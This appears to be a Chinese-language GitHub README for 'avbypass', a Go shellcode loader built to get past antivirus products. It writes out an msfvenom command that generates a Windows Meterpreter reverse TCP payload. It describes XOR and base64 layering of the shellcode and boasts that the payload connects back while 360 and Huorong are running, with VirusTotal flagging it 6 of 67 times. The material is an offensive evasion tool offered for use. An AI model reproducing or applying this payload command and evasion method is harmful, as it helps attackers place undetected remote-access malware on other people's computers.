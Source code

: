 ## avbypass

#### 使用

```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=xxx -f raw -o payload.bin
```

使用程序生成加密的shellcode后，填入指定位置，编译执行即可。

通过xor和base64多层加密shellcode实现的go加载器bypassav，

![](C:\Users\shu1l\Desktop\新建文件夹 (2)\QQ截图20211010131838.png)

![](C:\Users\shu1l\Desktop\新建文件夹 (2)\QQ截图20211010131902.png)

实测在开启360和火绒的情况下msf正常上线

![](C:\Users\shu1l\Desktop\新建文件夹 (2)\QQ截图20211010131740.png)

virustotal结果 6/67，后续有时间会慢慢修改

![](C:\Users\shu1l\Desktop\新建文件夹 (2)\QQ截图20211010155756.png)# avbypass
# avbypass
